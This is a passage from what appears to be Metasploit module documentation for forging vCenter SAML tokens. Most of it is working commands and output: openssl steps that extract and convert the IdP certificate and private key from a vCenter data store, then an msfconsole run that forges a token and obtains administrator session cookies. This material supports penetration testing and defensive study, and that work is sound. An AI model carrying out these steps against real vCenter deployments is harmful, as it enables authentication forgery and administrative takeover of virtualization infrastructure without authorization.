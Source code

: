This confirms that `86E2CA` is the IdP certificate, and `86E6B0` is the VMCA certificate. Convert them
to PEM format and rename them for convenience:

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -outform pem -out ./idp.pem
openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -outform pem -out ./vmca.pem
```

To associate  them with their private key, first calculate the SHA-256 digest of the modulus for
both certificates.

```
openssl x509 -in ./idp.pem -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl x509 -in ./vmca.pem -modulus -noout | sha256sum
432f0244896a3243f46d4a2f7322127a52b891a53b984745c286989c02862a13  -
```

Compare these to the modulus component of the candidate keys to associate them with the corresponding
certificate.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl rsa -inform der -in ./_data.mdb.extracted/86EB0C -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -
```

Based on this output we conclude `86EAF2` and `86EB0C` are identical, and share a modulus with the
IdP certificate: either of these can be extracted. Convert the file to PEM format and rename it for
convenience.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -outform pem -out ./idp.key
writing RSA key
```

You should now have `idp.pem`, `idp.key`, and `vmca.pem` in your working directory in PEM format.

### Running the Module
Example run against vCenter appliance version 7.0 Update 3d:

```
msf6 > use auxiliary/admin/vmware/vcenter_forge_saml_token.rb
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set RHOSTS 192.168.100.110
RHOSTS => 192.168.100.110
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VHOST vcenter.cesium137.io
VHOST => vcenter.cesium137.io
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_CERT ~/idp.pem
VC_IDP_CERT => ~/idp.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_KEY ~/idp.key
VC_IDP_KEY => ~/idp.key
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_VMCA_CERT ~/vmca.pem
VC_VMCA_CERT => ~/vmca.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > run
[*] Running module against 192.168.100.110

[+] Validated vCenter Single Sign-On IdP trusted certificate chain
[*] HTTP GET => /ui/login ...
[*] HTTP POST => /ui/saml/websso/sso ...
[*] Got cookie: VSPHERE-CLIENT-SESSION-INDEX=_ad4a6b68b157bded0de5ec6ce2cab324
[*] Got cookie: VSPHERE-UI-JSESSIONID=DA9ECA61A289E32D31D9926D0CD433C1
[*] Got cookie: VSPHERE-USERNAME=administrator%40vsphere.local
[+] Got valid administrator session token!
[+]     JSESSIONID=DA9ECA61A289E32D31D9926D0CD433C1; Path=/ui
```